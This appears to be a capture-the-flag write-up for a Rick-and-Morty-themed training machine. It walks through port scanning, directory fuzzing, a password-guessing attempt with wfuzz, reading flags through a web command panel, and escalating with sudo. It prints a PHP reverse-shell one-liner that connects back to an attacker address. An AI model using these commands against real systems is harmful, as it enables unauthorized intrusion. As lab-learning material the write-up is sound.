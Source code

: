 # Optional but useful:
When starting the machine, I got the IP and put it in hosts. To make it more efficient at getting to the site. IP: 10.10.108.239; host: rick.thm.

# Reconnaissance 
An important step in web enumeration is to get the nmap scan.

![namp_scan](assets/nmap_scan.png)


After seeing port: 80 (http port), we know there is a website involved. We also need to note that port: 22 (ssh port) is also open, which means we can possibly gain root access.

After going to the website, we see this

![home_scree](assets/home_screen.png)

We now know our goal, which is to find the last three secret ingredients to change Rick back into a person.

# Enumeration

After digging deeper, you can see in the inspect element the username.

![user_name](assets/user_name.png)

Username: R1ckRul3s

Very useful information; now we know there has to be some type of login page for this.

Knowing that a new page is needed using a fuzzing tool or directory brute forcing tool. The one I used was "gobsuter." Knowing we need to find a different page I used the payload of

`gobuster dir -u http://rick.thm -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php`

Got the results of:

![gobuster_result](assets/gobuster_result.png)

After looking at the results, one stands out the most. Login.php is most likely the page we are looking for.

Another page that wasn't listed was robots.txt (which is used for web scrapping); most websites have it. When looking at it, it only has Wubbalubbadubdub; maybe it has a significance.

![password](assets/password.png)

When using not knowing the password, you can try to brute force the password. Since we already know that the user name is "R1ckRul3s" it cuts down on how long it will take to find the password. After running

`wfuzz -c -z file,apache-user-enum-2.0.txt --hw 61 -d "username=R1ckRul3s&password=FUZZ" http://rick.thm/login.php`

The response was this:

![failed_fuzz](assets/failed_fuzz.png)

Although that random word in Robots.txt might be the password. And bingo, that was the password, and now we are on the portal.php page. So the username and password was R1ckRul3s, Wubbalubbadubdub.

![portal](assets/protal.png)

After looking around in the different tabs, it looks like we only have access to the commands section.

![denied](assets/denied.png)

This command panel might be what we need for the first ingredient. When you run 'ls' in the panel, it shows what is in the directory.

![dir1](assets/dir1.png)

When trying to read the file, it looks like we can't use the cat command. It is important to note that we are the user www-data. After multiple different commands to read the file, I found that the 'less' command works. Running

`less Sup3rS3cretPickl3Ingred.txt`

We get the first ingredient. Now we need to find the next two to help Rick turn back to normal. Looking back on the first directory, there is a text file named clue. Running the less command on the clue.txt says "Look around the file system for the other ingredient.".

After running pwd, we see that we are in the /var/www/html file path. We are not able to change the directory using cd, which means that we have to traverse the file system via the 'ls' command.

After looking, there is a file named "second ingredients" when running:
` ls ../../../home/rick/`

Instead of using the command panel, we can run a reverse PHP shell, which allowed access to the www-data user via the command line.
Payload:
    `php -r '$sock=fsockopen("[MACHINE IP]",[PORT NUMBER]);exec("/bin/sh -i <&3 >&3 2>&3");'`

Now we can use all of the commands that this user can do. Which also means that the website had some client-side filiters.

When running: `cat "second ingredients"` we get the second ingredient. It is required to have quotations around the second ingredients, since the command line thinks it is two different things. Now on to the third and final ingredient.

Most likely, the final ingredient would be in the root directory. When trying to ls the directory, there is an error saying we don't have the permissions. Although we can try the sudo command to get permission. Running: `sudo ls -la root` we see that 3rd.txt is in the root directory.

We now need to run the less command to see the file: `sudo less root/3rd.txt`. It works! The third and final ingredient was found, and Rick is now back to a normal person.

# Conclusion

At the beginning, using nmap to see the open ports and using gobuster to find the directories. We were able to gain access to the login page. Using the command panel to get the first ingredient, then using a PHP reverse shell to gain access to the machine. Finding the second ingredient in `/home/rick/`. Finally, finding the last indgredient in `/root/3rd.txt` using sudo to gain permission.